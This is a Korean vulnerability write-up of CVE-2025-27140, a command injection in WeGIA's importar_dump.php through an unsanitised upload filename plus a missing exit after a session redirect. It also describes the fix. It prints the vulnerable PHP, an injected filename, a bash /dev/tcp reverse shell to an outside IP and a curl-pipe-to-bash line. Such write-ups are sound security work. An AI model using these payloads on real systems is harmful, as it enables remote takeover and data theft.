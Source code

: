 ```yaml
---
title: "[하루한줄] CVE-2025-27140: WeGIA application의 parameter 검증 미흡으로 인한 RCE 취약점"
author: newp1ayer48
tags: [WeGIA, application, OS Command Injection, newp1ayer48]
categories: [1day1line]
date: 2025-02-26 18:10:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-xw6w-x28r-2p5c

## Target

- WeGIA application 3.2.15 이하 버전

## Explain

기관을 대상으로 웹 통합 관리 시스템을 제공하는 WeGIA의 application에서 parameter 검증 미흡으로 인한 RCE 취약점이 발생하였습니다.

취약점은 `importar_dump.php` 내부에 아래 구문에서 발생합니다.

```php
$log = shell_exec("mv ". $_FILES["import"]["tmp_name"] . " " . BKP_DIR . $_FILES["import"]["name"]);
```

`shell_exec()` 함수를 통해 `mv` 명령어로 임시 파일을 이동하는 명령을 수행합니다.

여기서 parameter에 대한 검증이 미흡하기 때문에 Command Injection 취약점이 발생합니다. 

추가로 임시 파일을 이동하는 명령이기에 Reverse Shell 사용과 Web Shell 업로드도 가능합니다.

세션 검증 이후 리다이렉션 구문이 존재하나, 실행 종료 프로세스가 존재하지 않습니다.

```php
<?php
if (!isset($_SESSION["usuario"])){
    header("Location: ../../index.php");
}
```

이로 인해 별도의 로그인 과정이 없어도 임의의 코드 실행 및 파일 업로드 공격이 가능합니다.

PoC는 다음과 같습니다.

### 1. OS Command Injection

`sleep 5` 명령을 실행하는 Command Injection을 수행합니다.

`filename`에 `a` 이름으로 함께 담아 전달하면 `sleep 5` 명령이 수행 된 것을 확인 할 수 있습니다.

```
a;sleep 5
```


![](CVE-2025-27140/1.png)

### 2. Reverse shell 실행

아래와 같이 reverse shell을 빌드합니다.

`bash -i >& /dev/tcp/172.30.137.198/7777 0>&1`

`|`로 bash shell에 전달하면 reverse shell이 실행됩니다. 예시는 아래와 같습니다.

```
a;curl -L <your_page_responses_rev_shell_code> | bash
```

![](CVE-2025-27140/2.png)


### 3. Web Shell 업로드

Web Shell 업로드는 구현되어 있는 파일 업로드 기능을 이용하여 php Web Shell을 쉽게 업로드 할 수 있습니다.

PoC에서는 `l8BL.php`라는 이름으로 php Web Shell을 업로드했습니다.


![](CVE-2025-27140/3.png)

![](CVE-2025-27140/4.png)


해당 취약점은 escapeshellarg() 함수를 통해 command injection에 사용되는 특수 문자에 대해 이스케이프 하도록 보완했습니다.

![](CVE-2025-27140/5.png)

그리고 exit() 함수를 추가해 세션 검증 이후 종료 구문을 추가하여 보완 했습니다.

![](CVE-2025-27140/6.png)



## Reference

- https://nvd.nist.gov/vuln/detail/CVE-2025-27140
- https://github.com/LabRedesCefetRJ/WeGIA

